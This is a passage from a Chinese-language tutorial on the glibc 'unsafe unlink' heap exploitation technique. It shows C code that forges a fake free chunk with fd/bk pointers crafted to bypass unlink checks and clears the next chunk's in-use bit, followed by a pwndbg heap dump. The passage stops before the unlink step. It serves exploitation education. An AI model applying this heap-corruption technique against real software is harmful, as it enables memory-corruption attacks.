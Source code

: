 接下来，在chunk0**内部**伪造一个空闲chunk堆块：

```c++
	//首先将留出chunk0_ptr[0]和chunk0_ptr[1]当作prev_size字段和size字段
	//chunk0_ptr[2]和chunk0_ptr[3]作为伪造chunk的fd字段和bk字段
	//为了绕过防护机制，fd内容设置为(&chunk0_ptr-3*8)，把bk的内容设置为（&chunk0_ptr-2*8）
	//从而此后对伪造chunk F进行unlink的时候，可以绕过F->fd->bk=F,F->bk->fd=F的检查
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	//通过为了营造攻击条件，需要设置伪造chunk F本身为free chunk，也就是需要设置下一个物理相邻chunk P的标志位P位0，prev_size字段为伪造chunk F的size。
	uint64_t *chunk1_hdr = chunk1_ptr - header_size; //chunk1_ptr指针上移2个单位，指向P的chunk头地址
	chunk1_hdr[0] = malloc_size; //设置prev_size字段为0x80，原来chunk Q为0x90，扣除chunk Q的头部，剩下的chunk F的大小为0x80
//即我们缩小chunk1的presize(表示的是chunk0的size),好让free认为chunk0是从我们伪造的堆块开始的。，所以这样就会让chunkF和chunk1连接在一起。
	chunk1_hdr[1] &= ~1; //修改chunk P的prev in use标志位为0，指示chunk F为free
```

此时内存中的情况为：

```assembly
pwndbg> heap
0x603000 PREV_INUSE {
  prev_size = 0x0, 
  size = 0x91, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x602058, 
  bk_nextsize = 0x602060 <stderr@@GLIBC_2.2.5>
}
0x603090 {
  prev_size = 0x80, 
  size = 0x90, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x603120 PREV_INUSE {
  prev_size = 0x0, 
  size = 0x20ee1, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
